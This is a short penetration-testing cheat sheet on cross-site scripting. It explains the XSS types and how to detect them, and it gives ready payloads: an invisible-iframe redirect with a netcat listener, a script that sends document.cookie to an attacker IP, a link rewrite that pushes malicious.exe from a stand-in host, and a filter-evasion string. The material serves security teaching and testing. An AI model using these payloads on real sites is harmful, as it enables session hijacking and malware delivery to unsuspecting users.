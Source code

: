 # XSS

> Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.

```bash
#The famous test script:
<script>alert('test')</script>
```

## Types of XSS

**Applications should sanitize all user inputs. Else, we can try to execute code.**

### Stored XSS:

Persistent XSS stored in a database. Every user who access the vulnerable page will receive the payload. Examples are: Forums and comment sections.

### Reflected XSS:

The payload is included in the URL. It only affects people accessing the malicious link. Example: Search bars.

### DOM-Based XSS:

Where content of an input is used to change something in the page. Example: Changing the background input.

_____

## Detecting XSS

In a persistent XSS, where we insert some input that will be stored in a database (like a forum or a comment section), we can try to add special characters in order to test how the application threats those characters.

For example, inserting the following in a comment section:

```bash
< > ; ""
```

If we inspect the results in the browser developer console and we see that these characters are not encoded, it's likely that the page is vulnerable to XSS.

_____

## Redirecting with XSS

Once we identify an XSS vulnerability, we can insert an invisible iframe in the page in order to redirect the client to our location.

```JavaScript
//Setup listener in attacker machine:
nc -nlvp $PORT
//Invisilble iframe to inject in the vulnerable page:
<iframe scr=$URL height="0" width="0"></iframe>
```

_____

## Stealing Cookies

If HttpOnly (deny JavaScript access cookies) cookie flag is not set, we can modify the payload to hijack user cookies (we should review other browser security controls, not only HttpOnly):

```JavaScript
<script>new Image().src="http://$IPADDRESS/image.jpg?output="+document.cookie;</script>
```

_____

## Download Malware

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site they control.

```bash
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

_____

## BeEF
> BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors.

_____

## Evasion Techniques

The [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) documents common filter evasion tests.

```bash
" onmouseover=alert("XSS")"
```
